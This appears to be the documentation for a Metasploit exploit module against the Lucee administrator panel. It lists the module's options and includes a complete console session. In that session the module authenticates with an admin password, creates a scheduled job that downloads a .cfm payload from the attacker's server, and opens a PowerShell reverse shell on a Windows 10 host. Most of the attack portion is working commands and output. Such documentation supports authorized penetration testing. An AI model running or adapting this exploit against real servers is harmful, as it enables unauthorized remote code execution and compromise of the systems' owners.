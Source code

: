 ## Options

### RHOSTS

Remote host to target.

### RPORT

Port being used by the Lucee admin panel. Default is 8888

### PASSWORD

The password of the administrative user. Lucee does not use a username, only a password to access the admin panel.

### TARGETURI

Target URI of the Lucee administrator panel. Default is

`/lucee/admin/web.cfm/`


### PAYLOAD_DEPLOY_TIMEOUT

Periodically, the target web server may take a moment to download and make the payload accessible. This
parameter determines how long the exploit should wait until considering the payload inaccessible.


## Scenarios
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 for a service account shell
```
msf > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf exploit(multi/http/lucee_scheduled_job) > set payload cmd/windows/powershell_reverse_tcp
payload => cmd/windows/powershell_reverse_tcp
msf exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf exploit(multi/http/lucee_scheduled_job) > set LHOST 10.0.0.45
LHOST => 10.0.0.45
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 192.168.19.145:4444 
[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/W7hSRT7xJLjosBr.cfm
[+] Job W7hSRT7xJLjosBr created successfully
[+] Job W7hSRT7xJLjosBr updated successfully
[*] Executing scheduled job: W7hSRT7xJLjosBr
[+] Job W7hSRT7xJLjosBr executed successfully
[*] Attempting to access payload...
[*] Payload request received for /W7hSRT7xJLjosBr.cfm?RequestTimeout=50 from 192.168.19.131
[*] Attempting to access payload...
[*] Powershell session session 1 opened (192.168.19.145:4444 -> 192.168.19.131:53204) at 2023-02-28 19:52:46 -0600
[*] Received 500 response from W7hSRT7xJLjosBr.cfm
[+] Exploit completed.
[*] Removing scheduled job W7hSRT7xJLjosBr
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\lucee\tomcat\webapps\ROOT\W7hSRT7xJLjosBr.cfm' on the target
```